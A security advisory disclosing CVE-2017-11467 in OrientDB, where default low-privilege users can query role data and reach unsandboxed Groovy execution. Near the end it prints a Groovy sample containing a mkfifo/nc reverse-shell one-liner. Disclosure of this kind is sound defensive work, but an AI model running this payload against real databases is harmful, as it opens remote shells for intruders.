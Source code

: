 ## Vulnerability Summary
The following advisory reports a vulnerability in OrientDB which allows users of the product to cause it to execute code.

OrientDB is a Distributed Graph Database engine with the flexibility of a Document Database all in one product. The first and best scalable, high-performance, operational NoSQL database.

## Credit
An independent security researcher, Francis Alexander, has reported this vulnerability to Beyond Security’s SecuriTeam Secure Disclosure program.

## Vendor response
The vendor has released patches to address this vulnerability and issue CVE-2017-11467.
For more information: https://github.com/orientechnologies/orientdb/wiki/OrientDB-2.2-Release-Notes#security.

## Vulnerability Details
OrientDB uses RBAC model for authentication schemes. By default an OrientDB has 3 roles – admin, writer and reader. These have their usernames same as the role. For each database created on the server, it assigns by default these 3 users.

The privileges of the users are:

admin – access to all functions on the database without any limitation
reader – read-only user. The reader can query any records in the database, but can’t modify or delete them. It has no access to internal information, such as the users and roles themselves
writer – same as the ‘reader’, but it can also create, update and delete records
ORole structure handles users and their roles and is only accessible by the admin user. OrientDB requires oRole read permissions to allow the user to display the permissions of users and make other queries associated with oRole permissions.

From version 2.2.x and above whenever the oRole is queried with a where, fetchplan and order by statements, this permission requirement is not required and information is returned to unprivileged users.

Example:


```
select * from <em>oRole</em> order by name;
```

The user writer which is created with every database you create. Thus even if the db admin changes the admin user password, an attacker would still be able to get Code Execution with the writer user.

Since we enable the functions where, fetchplan and order by, and OrientDB has a function where you could execute groovy functions and this groovy wrapper doesn’t have a sandbox and exposes system functionalities, we can run any command we want.

Sample Groovy function:
Command.md

```
def command = 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 0.0.0.0 8081
>/tmp/f'
 File file = new File("hello.sh")
 file.delete()
 file << ("#!/bin/bash\n")
 file << (command)
 def proc = "bash hello.sh".execute()
```
